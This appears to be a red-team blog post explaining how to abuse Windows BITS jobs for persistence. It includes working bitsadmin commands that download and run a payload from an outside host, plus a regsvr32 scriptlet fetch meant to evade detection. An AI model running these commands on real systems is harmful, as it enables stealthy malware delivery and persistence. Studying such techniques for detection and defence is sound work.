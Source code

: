 ```yaml
---
layout: single
classes: wide
title: BITS Persistence
excerpt: "Using BITSadmin for persistence"
date: 2020-09-27
tags: [windows persistence]
---
```


# BITS
## What is BITS job?
BITS or also known as Background Intelligent Transfer Service is a application that is used to download or upload files to two protocols which are HTTP web servers and SMB. BITS is also used to update other applications. 

One of the key feautures of BITS is that it allows download in the background and once a connection has been established it won't get disconnect unless the user logout or rebooted and when the network connection is off. It's also interesting to mention that BITS will reestablished the connection that has been lost due to circumstances for instance network connection was turned off, or the user rebooted or logout.

## Using BITS as a persistence tactic.
In the hacker's view or the offensive side, this can be abused to download payloads or tools that they require, It is also worth to mention that there's a highly chance of not getting detected when using this as there are also legitimate applications that use this so we just need to blend in with the environment. However, using BITS requires administration privileges on the compromised host.

### To download and execute:
```
bitsadmin /create shell
bitsadmin /addfile shell "http://192.168.1.43/shen.exe"  "C:\tmp\shen.exe"
bitsadmin /SetNotifyCmdLine shell C:\tmp\shen.exe NULL
bitsadmin /SetMinRetryDelay "shell" 60
bitsadmin /resume shell
```
1. The `/create` parameter is used to specify what type of jobs you want to create and the name of the job when not specifying the type it will default to `Download`. `bitsadmin /create [type] displayname`
2. The `/addfile` parameter is used to add a file into a specific job which as a value we can add the name of the job, a remoteURL that contains a file or a local file and the output name and location. `bitsadmin /addfile <job> <remoteURL> <localname>`
3. The `/SetNotifyCmdLine` parameter is used to run a cli command after a job was done transferring data. `bitsadmin /setnotifycmdline <job> <program_name> [program_parameters]
`
4. The `/SetMinRetryDelay` parameter is used to set how many seconds to wait before retrying to download a file once again that failed. `bitsadmin /setminretrydelay <job> <retrydelay>
`
5. The `/resume` parameter is used to activate the job. 
	`bitsadmin /resume <job>`
	
It is also possible to execute a scriptlet from a remote host via the regsvr32 through `SetNotifyCmdLine` to avoid touching the disk.
```
bitsadmin /SetNotifyCmdLine shell regsvr32.exe "/s /n /u /i:http://192.168.1.43/FHXSd9.sct scrobj.dll"
bitsadmin /resume shell
```

The metasploit module `exploit/multi/script/web_delivery` uses regsvr32 to deliver payloads. And it is also possible to generate one for cobalt strike through aggressor scripts.
	
## Resources:
https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md
https://pentestlab.blog/2019/10/30/persistence-bits-jobs/
http://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html
